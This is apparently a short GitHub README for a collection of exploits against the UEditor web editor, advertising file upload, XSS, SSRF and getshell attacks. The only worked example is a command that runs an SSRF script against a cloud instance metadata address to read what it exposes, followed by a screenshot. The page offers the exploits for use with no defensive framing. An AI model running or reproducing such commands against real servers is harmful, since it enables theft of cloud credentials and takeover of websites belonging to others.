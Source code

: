 # ueditor_exp
This is a Compilation of ueditor exps like file upload 、xss 、ssrf 、getshell

ssrf:
python u_ssrf.py http://100.100.100.200/latest/meta-data/
<img width="1209" height="579" alt="image" src="https://github.com/user-attachments/assets/cd4ce304-4a83-4d79-bc70-75294bb520e5" />

